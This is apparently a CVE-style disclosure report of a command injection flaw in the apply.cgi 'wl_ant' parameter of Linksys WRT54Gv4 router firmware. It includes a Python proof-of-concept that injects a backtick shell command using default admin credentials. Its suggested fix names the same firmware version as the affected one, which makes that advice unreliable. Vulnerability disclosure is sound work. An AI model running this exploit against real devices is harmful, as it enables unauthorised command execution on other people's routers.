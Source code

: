 # CVE Report - Command Injection Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Routers 

## Vulnerability Title

Command Injection Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Router. 

## Vulnerability Description

Linksys FW_WRT54Gv4 devices have an OS command injection vulnerability in the CGl interface "apply.cgi",which allows remote attackers to execute arbitrary commands via parameter **wl_ant**  passed to the "apply.cgi" binary through a POST request.



## POC

```python
import requests

url = "http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "146",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://172.17.0.4",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "StartEPI": "1",
    "wl_ant": "`touch 1.txt`",
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)

```



## Cause Analysis

The get_cgi function accepts external data. The user affects v5 by setting the wl_ant value. It enters system execution, resulting in a command execution vulnerability.

![image-20250301093444950](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20250301093444950.png)

![image-20250226211659312](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20250226211659312.png)

## Suggested Fix

It is recommended to update to the version FW_WRT54Gv4_4.21.5 of router to fix this vulnerability. 

